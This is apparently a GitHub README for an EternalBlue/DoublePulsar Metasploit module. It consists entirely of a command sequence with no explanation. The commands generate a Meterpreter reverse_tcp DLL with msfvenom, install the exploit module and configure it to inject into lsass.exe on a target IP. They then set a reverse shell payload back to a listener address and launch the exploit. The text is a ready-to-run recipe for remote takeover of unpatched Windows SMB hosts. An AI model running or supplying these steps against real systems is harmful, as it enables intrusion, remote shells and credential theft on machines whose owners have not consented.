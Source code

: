 # Eternalblue-Doublepulsar-Metasploit
<pre>
wine cmd.exe
exit

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.12.110 lport=4444 -f dll -o /root/.wine/drive_c/eternal11.dll

cd /usr/share/metasploit-framework/modules/exploits/windows/smb
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
mv Eternalblue-Doublepulsar-Metasploit/deps/ eternalblue_doublepulsar.rb ./

service postgresql start
msfconsole
reload_all

use exploit/windows/smb/eternalblue_doublepulsar
set DOUBLEPULSARPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set ETERNALBLUEPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set PROCESSINJECT lsass.exe
set TARGETARCHITECTURE  x64
set rhost 192.168.2.204
show targets
set target 8
set payload windows/x64/meterpreter/reverse_tcp
show options
set lhost 192.168.2.202

exploit
</pre>



